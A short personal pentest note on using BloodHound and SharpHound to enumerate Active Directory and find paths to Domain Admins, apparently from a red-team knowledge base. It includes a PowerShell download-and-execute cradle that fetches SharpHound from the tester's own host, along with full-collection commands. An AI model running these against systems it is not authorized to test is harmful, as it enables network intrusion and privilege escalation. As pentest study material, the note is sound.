 ```yaml
---
tags:
  - tool
  - active_directory
---
```

# BloodHound

Reveal hidden relationships within AD

SharpHound - Official data collector for BloodHound, performs all enumeration automatically and outputs to .json files ([documentation](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html))

## Setup

### SharpHound

We first need to collect data from our target with [SharpHound](https://github.com/BloodHoundAD/SharpHound)

```bash
# Grab local collectors in kali

cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .
cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe .
```

```bash
# Import Sharphound.ps1
iex(new-object net.webclient).downloadstring("http://$OUR_IP/SharpHound.ps1")
Get-Help Invoke-BloodHound

# Execute Bloodhound
.\SharpHound.exe -c All --outputprefix "$USER_$DOMAIN"
Invoke-BloodHound -CollectionMethod All -OutputPrefix "$USER_$DOMAIN"
Invoke-BloodHound -CollectionMethod All -OutputPrefix "$USER_$DOMAIN"
```

### BloodHound

We can now run BloodHound

```bash
# Start neo4j (creds - neo4j:neo4j)
sudo neo4j start
firefox http://localhost:7474 &
```

```bash
# Start bloodhound
bloodhound
```

**Note:** You can clear the database from inside the bloodhound GUI at the bottom of "Database Info"

We can now use the `Upload Data` function on the right side of the GUI to upload the zip file, or drag-and-drop it into BloodHound's main window.

See [here](https://support.websoft9.com/en/docs/neo4j) if you forgot your password (I set mine to `Password123`)

## Analysis

- Start by marking owned targets
- We can now get a high level overview of the environment

`Find Shortest Paths to Domain Admins` (at the bottom of analysis tab)
